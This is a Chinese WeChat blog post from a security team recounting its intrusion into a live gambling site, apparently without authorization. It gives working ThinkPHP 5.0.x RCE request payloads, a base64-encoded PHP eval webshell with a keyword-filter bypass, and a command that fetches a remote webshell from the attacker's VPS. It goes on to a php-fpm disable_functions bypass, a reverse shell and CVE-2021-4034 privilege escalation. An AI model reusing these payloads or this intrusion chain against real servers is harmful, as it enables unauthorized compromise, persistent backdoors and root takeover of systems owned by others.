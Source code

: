 #  对博彩站点bypass宝塔渗透测试(练手)

原创 CVES实验室  [ Arr3stY0u ](javascript:void\(0\);)

**Arr3stY0u** ![]()

微信号 shg-sec

功能介绍 山海关安全团队旗下CTF战队-Arr3stY0u公众号。

____

___发表于_

收录于合集

![]()

**CVES实验室**

       ** **“CVES实验室”(www.cves.io)由团队旗下 **SRC组与渗透组合并而成，** 专注于漏洞挖掘、渗透测试与情报分析等方向。近年来我们报送漏洞总数已达八万余个，其中包含多个部级单位、多个通信运营商、Apache、Nginx、Thinkphp等，获得CNVD证书、CVE编号数百个，在不同规模的攻防演练活动中获奖无数，协助有关部门破获多起省督级别的案件。****

 **GETSHELL尝试**

![]()

 **路径加单引号报错：**

![]()

 **Thinkphp v5.0.7直接试试rce：**  

![]()

 **存在rce，php版本5.6.40**

 **尝试写马：**

  * 

    
    
     s=file_put_contents('test.php','<?=echomd5(1);')&_method=__construct&method=POST&filter[]=assert

 **发现无法写入，怀疑存在关键字过滤，查看当前路径文件：**

  * 

    
    
     s=var_dump(scandir('./'))&_method=__construct&method=POST&filter[]=assert

![]()

 **发现日志目录路径，尝试文件包含日志拿shell，发现日志内容全部被sql相关信息刷屏，故放弃。**

 **BYPASS_GETSHELL**

 **尝试bypass关键字，利用base64编码+php短标签进行绕过：**

  * 

    
    
     s=file_put_contents('2.txt',base64_decode('PHNjcmlwdCBsYW5ndWFnZT0icGhwIj5AZXZhbCgkX1BPU1RbYV0pO2VjaG8gbWQ1KDEpOzwvc2NyaXB0Pg=='))&_method=__construct&method=POST&filter[]=assert

 **尝试文件包含：**

  * 

    
    
     s=2.txt&_method=__construct&method=POST&filter[]=think\__include_file&a=phpinfo();

![]()

 **尝试蚁剑连接，果然没加密流量连接失败，掏出rsa加密马或者随机时间马：**

![]()

 **上传到vps，下载远程马：**

  * 

    
    
     s=copy('http://xxx/rsa.php','3.txt')&_method=__construct&method=POST&filter[]=assert

 **添加信息进行文件包含：**

  * 

    
    
     s=2.txt&_method=__construct&method=POST&filter[]=think\__include_file&密

![]()

 **抓包看一下流量：**  

![]()

 **在连接时发现了坑点，这几个参数post时参数顺序不一样竟然无法执行命令，即使更改蚁剑的body顺序也无济于事，所以蚁剑通过代理到bp进而匹配替换。**

![]()

 **这样不添加body也可以进行蚁剑操作。**

![]()

 **后面操作又出问题，修改文件时，顺序又错了，放弃蚁剑，掏出哥斯拉，直接左边追加数据，巨方便。**

![]()

 **流量包也正确：**

![]()

 **BYPASS_DISABLE**

 **翻找文件，宝塔面板：**

![]()

 **寻找php-fpm相关文件 /www/server/php/56/etc/php-fpm.conf。**

![]()

 **Listen是在/tmp下的cgi。**

 **攻击tcp模式的方式显然不行，但是我们已经知道fpm 的 sock 文件的绝对路径。直接去交互他，或者用 unix:// 套接字的方式依然可行。**

![]()

 **填上fpm地址，执行了system：**

![]()

 **提权**

 **反弹shell：**

![]()

 **准备提权 CVE-2021-4034，将编译好的提权文件上传执行发现如下问题：**

![]()

 **解决办法：**

  *   * 

    
    
     find / -name cc1export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/

![]()

 **提权成功：**

![]()

 **总结**

 **thinkphp rce- >bypass rce->bypass disable_function->提权。**  

 **招新事宜**

 **基本要求：**

 **1\. 年满18周岁。**

 **2.   **踏实肯学，执行力强。**** ****

 **3.   **熟悉漏洞复现(1day)思路、熟悉红队作战流程、具备单兵作战能力。****

 **加分项：(满足任意1条即可)  
**

 **1.   **挖过补天专属项目高危漏洞。****

 ** **2. **  知名企业SRC月榜top5。******

 **3\. 有高质量CVE编号。**

 ** **4\. Java，Go，Rust，Node.js，PHP等熟悉任意两种及以上代码审计。**  
**

 **联系方式：blcx@t00ls.net**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

